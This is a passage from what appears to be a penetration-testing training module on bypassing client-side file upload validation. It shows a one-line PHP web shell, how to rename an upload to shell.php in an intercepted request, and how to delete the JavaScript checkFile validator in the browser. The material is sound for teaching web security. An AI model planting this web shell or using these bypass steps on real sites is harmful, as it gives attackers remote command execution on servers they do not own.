```<?php system($_REQUEST['cmd']); ?>```

    The web application appears to be sending a standard HTTP upload request to /upload.php. This way, we can now modify this request to meet our needs without having the front-end type validation restrictions. If the back-end server does not validate the uploaded file type, then we should theoretically be able to send any file type/content, and it would be uploaded to the server.

    The two important parts in the request are filename="HTB.png" and the file content at the end of the request. If we modify the filename to shell.php and modify the content to the web shell we used in the previous section; we would be uploading a PHP web shell instead of an image.



    Note: We may also modify the Content-Type of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.


## Disabling Front-end Validation


    Another method to bypass client-side validations is through manipulating the front-end code. As these functions are being completely processed within our web browser, we have complete control over them. So, we can modify these scripts or disable them entirely. Then, we may use the upload functionality to upload any file type without needing to utilize Burp to capture and modify our requests.

    <input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">

    ere, we see that the file input specifies (.jpg,.jpeg,.png) as the allowed file types within the file selection dialog. However, we can easily modify this and select All Files as we did before, so it is unnecessary to change this part of the page.

    The more interesting part is onchange="checkFile(this)", which appears to run a JavaScript code whenever we select a file, which appears to be doing the file type validation. To get the details of this function, we can go to the browser's Console by clicking [CTRL+SHIFT+K], and then we can type the function's name (checkFile) to get its details:
```
    function checkFile(File) {
    ...SNIP...
        if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
            $('#error_message').text("Only images are allowed!");
            File.form.reset();
            $("#submit").attr("disabled", true);
        ...SNIP...
        }
    }

```   

    To do so, we can go back to our inspector, click on the profile image again, double-click on the function name (checkFile) on line 18, and delete it

    Tip: You may also do the same to remove accept=".jpg,.jpeg,.png", which should make selecting the PHP shell easier in the file selection dialog, though this is not mandatory.


    Once we upload our web shell using either of the above methods and then refresh the page, we can use the Page Inspector once more with [CTRL+SHIFT+C], click on the profile image, and we should see the URL of our uploaded web shell:

```<img src="/profile_images/shell.php" class="profile-image" id="profile-image">```


    
## Blacklist Filters
```